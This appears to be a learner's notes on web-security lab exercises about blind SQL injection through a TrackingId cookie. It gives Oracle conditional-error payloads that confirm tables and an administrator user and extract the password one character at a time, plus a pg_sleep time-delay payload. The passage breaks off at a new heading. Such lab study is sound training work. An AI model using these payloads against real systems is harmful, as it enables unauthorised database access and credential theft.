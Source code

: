 **My comment**

First try to put ' at the end of TrackingID = this will occur an error if I put another '' then it will works 

This will occur an error

```jBLFcMbX0aiwI7lY'||(SELECT ‘')||'```

This will works, when I specified table name, that means that the target using Oracle database

```jBLFcMbX0aiwI7lY'||(SELECT '' FROM dual)||’```

It will throw an error message when I specified table name that doesnot exist

```jBLFcMbX0aiwI7lY'||(SELECT '' FROM pokus)||’```

Because this doesnot throw error, I know that this table exist 

```jBLFcMbX0aiwI7lY'||(SELECT '' FROM users WHERE ROWNUM = 1)||’```

Error message

```'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||’```

There the error disappears 

```'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' ```

Verify that the condition is true (the error is received), confirming that there is a user called administrator

```'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username=‘administrator')||```

If the condition is true then I know that password length is bigger then 1

```'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

Find a password 

```'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username=‘administrator')||'```

In turbo intruder I need to write %s 
when status code is 500 then the password is correct .

## Exploiting blind SQL injection by triggering time delays

### Blind SQL injection with time delays

The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

**Solution**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the *TrackingId* cookie.
2. Modify the *TrackingId* cookie, changing it to:

    ``` TrackingId=x'||pg_sleep(10)-- ```

3. Submit the request and observe that the application takes 10 seconds to respond.

**My comment**

```'||pg_sleep(10)--```

### Blind SQL injection with time delays and information retrieval

```